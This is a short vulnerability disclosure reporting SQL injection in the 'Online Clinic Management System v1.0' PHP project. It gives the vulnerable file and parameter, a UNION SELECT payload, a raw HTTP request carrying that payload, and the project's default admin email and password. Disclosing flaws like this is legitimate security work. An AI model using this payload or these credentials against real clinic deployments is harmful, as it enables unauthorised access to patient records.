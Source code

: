 # Online Clinic Management System v1.0 has SQL injection

nick-name: jacky.liu

vendors: https://itsourcecode.com/free-projects/php-project/online-clinic-management-system-php-projects-source-code/

dbname= id8650063_suarezclinicdb

username&password = admerc@yahoo.com/itota

Vulnerability File: /success/editp.php

Vulnerability location: /success/editp.php?action=edit & id=, id

[+] Payload: /success/editp.php?action=edit & id=201801 union select 1,database(),3,4,5,6--+

```sql
GET /success/editp.php?action=edit%20&%20id=201801%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k7u4fodbeos6ie4oc0oa29u5qg
Connection: close
```

